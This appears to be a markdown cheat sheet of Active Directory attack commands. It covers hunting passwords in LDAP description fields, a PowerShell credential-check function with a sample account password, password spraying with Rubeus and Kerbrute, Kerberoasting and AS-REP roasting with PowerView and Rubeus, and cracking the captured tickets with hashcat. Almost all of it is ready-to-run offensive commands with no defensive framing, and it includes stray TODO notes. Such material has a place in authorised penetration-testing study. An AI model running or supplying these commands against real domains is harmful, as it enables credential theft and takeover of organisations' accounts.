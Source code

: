 # 1. Sensitive Data in LDAP
## Start ADExplorer and search through the AD for sensitive information
`PS> adexplorer.exe`

ADexplorer> search user description field contains pw, pwd, password, pass

## Enumerate the AD with ADRecon
`PS> .\ADRecon.ps1`

`PS> .\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp`

TODO: wget Excel file since Excel will not be installed

## Check if the password is working
```
function Test-ADCredential {

    [CmdletBinding()]
    Param
    (
        [string]$UserName,
        [string]$Password
    )
    if (!($UserName) -or !($Password)) {
        Write-Warning 'Test-ADCredential: Please specify both user name and password'
    } else {
        Add-Type -AssemblyName System.DirectoryServices.AccountManagement
        $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('domain')
        $DS.ValidateCredentials($UserName, $Password)
    }
}
```

`Test-ADCredential -UserName printeradm -Password "x!3945jjlkJ2mN4QQ2"`

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Rubeus
`PS> .\Rubeus.exe brute /password:Start123!`

### Kerbrute
`PS> Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"`

`PS> Import-Module .\PowerView.ps1`

`PS> (Get-NetUser | select samAccountName).samAccountName > users.txt`

`PS> .\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!`

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
`PS> Import-Module .\PowerView.ps1`

`PS> Get-NetUser | Where-Object {$_.servicePrincipalName} | fl`

`PS> Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### PowerView-Dev
`PS> Import-Module .\PowerView-dev.ps1`

`PS> Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl`

`PS> Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### Invoke-Kerberoast
`PS> Import-Module .\Invoke-Kerberoast.ps1`

`PS> Invoke-Kerberoast`

### Rubeus
`PS> .\Rubeus.exe kerberoast`

## Get TGS Kerberos Tickets
### PowerView-Dev
`PS> Import-Module .\PowerView-dev.ps1`

`Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Invoke-Kerberoast
`PS> Import-Module .\Invoke-Kerberoast.ps1`

`PS> Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Rubeus
`PS> .\Rubeus.exe kerberoast /outfile:kerberoasted.txt`

## Crack TGS tickets
`PS> hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt`

# 3. Kerberoasting
## Identify AS-REP roastable users
### PowerView-Dev
`PS> Get-DomainUser -PreauthNotRequired | ft samaccountname, pwdlastset`

`PS> Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED | ft samaccountname, pwdlastset`

### Rubeus
`PS> .\Rubeus.exe asreproast`

### Invoke-ASREPRoast
`PS> Import-Module .\Invoke-ASREPRoast.ps1`

`PS> Invoke-ASREPRoast`

## ASREPRoasting
### Rubeus
`PS> .\Rubeus.exe asreproast /format:hashcat /outfile:asrephashes.txt`

### Invoke-ASREPRoast
`PS> Invoke-ASREPRoast | % { $_.Hash } | Out-File -Encoding ASCII asrephashes.txt`

## Cracking AS-REP hash with Hashcat
`PS> hashcat -a 0 -m 18200 asrephashes.txt /usr/share/wordlists/rockyou.txt`
